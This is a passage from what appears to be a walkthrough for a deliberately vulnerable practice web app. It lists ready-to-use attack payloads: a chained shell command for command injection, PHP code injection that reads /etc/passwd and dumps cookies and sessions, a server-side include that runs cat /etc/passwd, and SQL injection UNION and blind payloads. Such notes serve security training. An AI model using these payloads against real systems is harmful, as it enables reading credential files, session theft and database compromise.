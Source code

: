 bind more shell commands 
```
www.nsa.gov | sleep 10
```


### 💀  PHP Code Injection 💀
url: /phpi.php
pass or append bad php code with message variable. the following code will list the content of /etc/passed directory.
```
phpi.php?message='a';echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```
the following shows the current directory path
```
phpi.php?message='hacker loi '; echo __dir__;
```
show cookies
```
phpi.php?message='whatever ';var_dump($_COOKIE)
```
show sessions
```
phpi.php?message='whatever ';var_dump($_SESSION)
```
### 💀  Server-Side Includes: 💀
url: /ssii.php
```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
```

### 💀  SQL Injection (GET/SEARCH) 💀

```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;--

```
show databases tables using union
```
sqli_1.php?title=man%%27%20UNION%20ALL%20SELECT%20table_schema,table_name,%20null,%20null,%20null,%20null,%20null%20from%20information_schema.tables;--%20sXHO&action=search
```
others query identied using sqlmap
```
Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: title=man%' AND 7892=7892 AND '%'='&action=search

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: title=man%' OR (SELECT * FROM (SELECT(SLEEP(5)))sqDX) AND '%'='&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: title=man%' UNION ALL SELECT NULL,CONCAT(0x7171707671,0x586d66766176616a7345674b664f704764757a6e487558414c71786250466d566245655a7457596a,0x7176787a71),NULL,NULL,NULL,NULL,NULL-- sXHO&action=search

```
### 💀  SQL Injection (GET/SELECT) 💀
url: /sqli_2.php
another basic type of SQL inject with GET request. 

